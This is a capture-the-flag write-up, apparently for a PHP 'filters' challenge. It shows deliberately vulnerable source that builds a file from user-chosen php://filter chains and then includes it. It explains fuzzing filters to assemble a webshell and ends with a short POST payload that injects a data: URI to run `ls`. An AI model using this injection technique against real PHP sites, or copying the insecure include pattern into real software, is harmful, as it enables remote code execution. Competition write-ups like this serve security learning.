

### filters
```php
<?php

isset($_POST['filters'])?print_r("show me your filters!"): die(highlight_file(__FILE__));
$input = explode("/",$_POST['filters']);
$source_file = "/var/tmp/".sha1($_SERVER["REMOTE_ADDR"]);
$file_contents = [];
foreach($input as $filter){
    array_push($file_contents, file_get_contents("php://filter/".$filter."/resource=/usr/bin/php"));
}
shuffle($file_contents);
file_put_contents($source_file, $file_contents);
try {
    require_once $source_file;
}
catch(\Throwable $e){
    pass;
}

unlink($source_file);

?>
```
This challenge requires players to use PHP filters to convert a binary file into a webshell. The original idea could be seen [here](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/B1A2JIjjm?type=view)

#### Intended solution

Make a simple fuzzer
[fz.php](https://github.com/Nu1LCTF/n1ctf-2020/blob/main/MISC/filters/WriteUp/fz.php)

`php fz.php /usr/bin/php`

Some short words are generated.

After lots of testings, all single letter and symbol could be generated in a short time(less than one hour).
It is often even possible to generate a single sample of multiple required characters combined together. （eg. file `<?=` could be generated）
##### Case ABCDEFGHI
`shuffle($file_contents);`

If you just generate single character, you will have $ \frac{1}{A_9^9} $ probability of combining into this string (ABCDEFGHI). If there are repeated characters in final goal, the probability will be higher (eg. ```<?=`ls`?>```). If you could generated combined characters, this probability will be higher too. 
##### Conclusion
I used to generated combined characters `<?=`. This challenge was meant to see if someone can fuzz a combination that is closer to the final goal ```<?=`ls`?>```, but I think most solvers might use unintended solution.

#### Unintended solution
POST
```filters=resource%3ddata:,<?=`ls`?>,```


